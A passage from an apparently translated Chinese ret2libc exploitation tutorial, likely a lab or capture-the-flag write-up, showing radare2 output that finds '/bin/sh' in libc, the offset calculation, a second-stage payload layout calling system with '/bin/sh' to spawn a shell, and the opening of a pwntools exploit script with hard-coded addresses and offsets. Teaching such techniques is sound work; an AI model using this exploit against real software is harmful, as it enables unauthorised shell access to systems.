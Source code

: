 ```
Searching 7 bytes in [0xf7f74000-0xf7f75000]
hits: 0
Searching 7 bytes in [0xf7f75000-0xf7f93000]
hits: 0
Searching 7 bytes in [0xf7f93000-0xf7f9e000]
hits: 0
Searching 7 bytes in [0xf7f9f000-0xf7fa0000]
hits: 0
Searching 7 bytes in [0xf7fa0000-0xf7fa1000]
hits: 0
Searching 7 bytes in [0xffe99000-0xffeba000]
hits: 0
0xf7eef352 hit0_0 .b/strtod_l.c-c/bin/shexit 0canonica.


[0x080483d0]> dmm~libc
0xf7d5d000 0xf7d7a000  /usr/lib/i386-linux-gnu/libc-2.31.so

[0x080483d0]> ?X 0xf7eef352-0xf7d5d000
192352
```

通过计算`“/bin/sh”`相对于  libc  基数的偏移量是 0x192352。 让我们将其填充到我们的漏洞利用中并进入最后一部分。

```
...
# Offsets
offset_puts = 0x00071cd0 
offset_system = 0x00045830
offset_exit = 0x00038170
offset_str_bin_sh = 0x192352  
...
```

### 4.Spawning a shell

漏洞利用的第二阶段非常简单。 我们将再次使用 140 字节的填充，然后以 `"/bin/sh"` 的地址作为参数调用 `system`，然后返回 `exit`。

```
+---------------------+
|       Stage 2       |
+---------------------+
| padding (140 bytes) |
| system@libc         |
| exit@libc           |
| /bin/sh address     |
+---------------------+
```

还记得我们上次回到入口点吗？ 这意味着 scanf 再次等待我们的输入。 现在我们需要做的就是链接这些调用并将其发送到程序。

这是最终的脚本。 正如我之前提到的，您需要替换偏移量以匹配您的 libc 版本。

```
from pwn import *

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

# Offsets
offset_puts = 0x00071cd0 
offset_system = 0x00045830
offset_exit = 0x00038170
offset_str_bin_sh = 0x192352  

```